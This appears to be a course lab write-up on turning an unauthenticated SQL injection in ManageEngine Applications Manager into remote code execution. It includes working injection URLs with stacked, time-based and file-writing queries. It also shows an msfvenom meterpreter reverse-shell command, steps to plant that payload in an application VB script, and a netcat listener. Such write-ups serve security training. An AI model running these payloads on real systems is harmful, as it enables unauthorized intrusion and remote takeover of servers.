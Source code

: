 # ManageEngine SQLI to RCE
In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.
We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.
Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.
## Vulnerability Discovery
By browsing through the ManageEngine’s Application Manager web interface, we can see that most URLs contain the `.do` extension. `.do` extension is typically used in a URL mapping scheme for **compiled Java code**.
Java web applications use a deployment descriptor file named **`web.xml`** to determine how URLs map to servlets, which URLs require authentication, and other information.
### Source Code Analysis
- Search for SQL queries in the source decompiled code in notepad++ using regx: `^.*?query.*?select.*?` (this expression basically says: Look for any line that begins with any number of alphanumeric characters which is followed by the string `query` which is followed by a number of any characters which is followed by the string `select` which is followed by a number of any characters.)
- To reduce a web app’s attack surface, start with the front-end and review HTTP handlers. In Java servlets, these are easily found by their consistent naming pattern, like **`doGet`** and **`doPost`**.
- Enable PostgreSQL logging from its configuration file `postgresql.conf`, search for the string `log_statement`, uncomment the line then set its value to `all` and **restart the service** to apply the changes. Start inspecting the logs `Get-Content C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\postgresql_13.log -wait -tail 1`
- `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;` by injecting a special character (`;`) into the vulnerable parameter, we can check the logs for any syntax errors to verify if the injection was successful using the following command: `Get-Content postgresql_13.log -tail 100 | Select-String -pattern "syntax error"`
## Exploitation
- PGSQL supports stacked queries `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);`
- if the app filters the quotes `'`, PostgreSQL supports `$$` (dollar-quoting) as a replacement for single quotes (`'`) to simplify writing strings that contain literal quotes.
- The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
- Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
- Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
### Accessing the file system
#### Backdoor Crafting
1. **Making the original script one liner**
Match and replace roles in Notepad++ :
- `'.*` (remove the comments)
- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator)
2. **Create reverse shell**
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
Match and replace roles in Notepad++ (to make the payload oneliner):

- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator) **If you copied from the terminal, match on `\n\r` instead of jsut `\n`**
- mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
3. **Final Payload**
  - We will paste out modified msfvenom payload just before `:WScript.Quit(0):`, as: `Echo serviceData:Next:<PAYLOAD_HERE>:WScript.Quit(0):`
4. **Write the payload to the target file system using the SQLI**
  - Encode the payload into Base64 then URL encode it
  - write it to to `wmiget.vbs` using `copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;`
  - Final SQLI query looks like this:
    ```
      /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
    ```
5. **Open a Netcat listener**
```
nc -nlvp 1337
```
